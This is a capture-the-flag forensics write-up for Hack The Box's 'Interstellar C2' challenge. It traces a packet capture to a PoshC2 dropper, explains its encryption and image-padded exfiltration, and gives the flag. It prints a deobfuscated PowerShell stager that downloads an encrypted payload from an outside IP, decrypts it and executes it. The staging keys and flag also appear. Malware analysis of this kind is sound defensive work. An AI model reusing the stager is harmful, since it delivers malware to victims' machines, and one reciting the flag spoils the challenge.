# WRITE_UP #

## INTERSTELLAR C2 ##

### 1. Analysis ###
* **Given:** a pcapng file named `capture.pcapng`
* **Description:** We noticed some interesting traffic coming from outer space. An unknown group is using a Command and Control server. After an exhaustive investigation, we discovered they had infected multiple scientists from Pandora's private research lab. Valuable research is at risk. Can you find out how the server works and retrieve what was stolen?
* **Hints:**   
    * No hints are given

### 2. Investigation ###
A C2 challenge go with a pcapng file, what a combo, let's analyze it.

Analyzed the file by checking hierarchy protocol, I could see almost entire payload is transmitted via TCP, so I chose to follow TCP stream.

In stream 0, apparently there's a mildly obfuscated powershell script:



Using [PowerShell Deobfuscator](https://minusone.skyblue.team/), I could easily deobfuscate the script:

```ps1
& "set-item" "vAriAble:qLz0so" ([Type]"SySTEM.io.FilEmode")
& "set-variable" l60Yu3 ([Type]"sYStem.SeCuRiTY.crypTOgRAphY.aeS")
& "set-variable" BI34 ([Type]"sySTEm.secURITY.CrYpTogrAPHY.CrypTOSTReAmmoDE")

${PTF} = "$env:temp\94974f08-5853-41ab-938a-ae1bd86d8e51"
& "import-module" "BitsTransfer"
& "start-bitstransfer" -Source "http://64.226.84.200/94974f08-5853-41ab-938a-ae1bd86d8e51" -Destination ${pTf}
${Fs} = & "new-object" "IO.FileStream" (${pTf}, (& "childitem" "VAriablE:QLz0sO").VALue::Op`en)
${MS} = & "new-object" "System.IO.MemoryStream"
${aes} = (& "gi" VARiaBLe:l60Yu3).VAluE::Create.Invoke()
${aEs}.Ke`y`size = 128
${KEY} = [Byte[]](0, 1, 1, 0, 0, 1, 1, 0, 0, 1, 1, 0, 1, 1, 0, 0)
${iv} = [Byte[]](0, 1, 1, 0, 0, 0, 0, 1, 0, 1, 1, 0, 0, 1, 1, 1)
${aES}.K`ey = ${KEY}
${Aes}.I`v = ${iV}
${cS} = & "new-object" "System.Security.Cryptography.CryptoStream" (${mS}, ${aEs}.Createdecryptor.Invoke(), (& "get-variable" bI34 -VaLue)::W`rite)
${fs}.Copyto.Invoke(${Cs})
${decD} = ${Ms}.Toarray.Invoke()
${CS}.Write.Invoke(${dECD}, 0, ${dECd}.Leng`th)
${DeCd} | & "set-content" -Path "$env:temp\tmp7102591.exe" -Encoding "Byte"
& "$env:temp\tmp7102591.exe"
```

This script tries to download a file from `http://64.226.84.200/94974f08-5853-41ab-938a-ae1bd86d8e51`, then using AES-128 with key and iv hardcoded in the script to decrypt the file, before saving it to `%TEMP%\tmp7102591.exe` and execute it later.

In `TCP stream 2`, I could get the encrypted file:



Using CyberChef to decrypt the file, I got another malware, this time it was an `.exe`:



I uploaded the malicious file to `VirusTotal`, turned out it was a `PoshC2` - [About PoshC2](https://github.com/nettitude/PoshC2) dropper:



* **PoshC2:** is an open-source Command and Control framework commonly used for red team operations, post-exploitation, and lateral movement. It supports multiple implant types, including PowerShell, C#, Python, Linux, and macOS/JXA implants. This makes it flexible across different target environments.

After a research, I found this article is such a detailed analysis about PoshC2, it even show how to decrypt the traffic, you can read more about it here [PoshC2](https://www.keysight.com/blogs/en/tech/nwvs/2021/08/28/posh-c2-command-and-control), however I still analyzed the `.exe` from the beginning to see if there was any custom configures (which after few steps I found out nothing is changed). 

First, I ran `file payload.exe` to acknowledge this is a .NET assembly, so I used dnSpy to analyze the malware further:



I look for the function `Encryption` which looks like this:



Apparently the main crypto algorithm is `CreateCam` since the passed arguments are key, base64 decoded string. Moreover this function also use `Gzip` to compress the payload if the passed argument `comp`'s value is true. 



Crypto algorith used in `CreateCam` is **Rijndael** or **AES** based on a bool argument `rij`, but `Rijndael` is prioritized. 

* **Rijndael** is symmetric block cipher, Rijndael was the algorithm selected by NIST to become AES, but Rijndael and AES are not always identical in .NET terminology.
*  **AES** is a restricted version of Rijndael:
    - AES always uses a block size of 128 bits.
    - AES supports key sizes of 128, 192, or 256 bits.
    - Rijndael can support more flexible block sizes, depending on the implementation.

Next, in function `primer()`, I spotted the base64 encoded key string `DGCzi057IDmHvgTVE2gm60w8quqfpMD+o8qCBGpYItc=` hardcoded in the code:



This `primer()` function used this key as the initial staging key. It is used to encrypt the first host check-in from `/Kettie/Emmie/Anni?Theda=Merrilee?c` and decrypt the C2 response. The decrypted response contains the real implant configuration, including `NEWKEY`, which becomes the key used later by `ImplantCore()` for tasking and command output traffic:



Decrypted this package using CyberChef I was able to extract the `NEWKEY` = `nUbFDDJadpsuGML4Jxsq58nILvjoNu76u4FIHVGIKSQ=`:



Another interesting class is `Exec()`, when it call `Encryption()` as well as there's a variable named `cmdoutput` is converted from base64 encoded string before going through another process named `GetImgData`:





`GetImgData` prepends a 1500-byte cover layer before the real command output. It first selects a random Base64-encoded image-like blob from `_newImgs`, decodes it, then fills the remaining bytes up to offset 1500 with a random UTF-8 string. The actual `cmdoutput` is appended after this padding.

Therefore, the real command output starts at offset `1500` zero-based in sent images. Return to the `.pcapng` given in the first place, there are a lot of POST request to the C2 server that's look exactly like the dropper illustrates:



I then extracted the artifacts which are the pictures to decrypt the cmdoutput using CyberChef. I was able to extract some PNG, there was a PNG way bigger than the other, so I decrypted it first:





That was a gzip, I saved it then use `gunzip` to extract the file. After extracting there's a file filled with base64 strings, so I decode it, turns out that's a `.png` file:





Opened the image I could retrieve the flag:


    
### 3. Solution ###
1. **Result:** The flag is `HTB{hOw_c4N_y0U_s3e_pOSH_cOmM4nd?}`